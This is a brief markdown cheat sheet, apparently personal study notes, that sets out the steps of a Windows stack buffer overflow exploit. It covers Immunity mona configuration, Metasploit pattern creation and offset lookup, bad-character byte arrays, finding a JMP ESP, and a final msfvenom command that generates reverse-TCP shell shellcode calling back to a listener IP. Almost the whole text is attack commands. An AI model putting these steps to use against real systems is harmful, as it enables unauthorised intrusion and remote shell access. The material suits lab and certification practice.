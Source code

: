 # Buffer Overflow

> Shahrukh Tramboo | February 26th, 2022

--------------------------------------

**Mona Configuration**

```bash
!mona config -set workingfolder c:\mona\%p
```

**create pattern**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```


**getting pattern offset**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E
```
or
```bash
!mona findmsp -distance 600
```

**create a bytearray**

using bpython
```
bytearray(range(1,256))
```

**Finding a Jump Point**

```bash
!mona jmp -r esp -cpb "\x00"
```

**Generate Payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.39.185 LPORT=4444 EXITFUNC=thread -b "\x07\x2d\x2e\xa0" -f py -v shellcode
```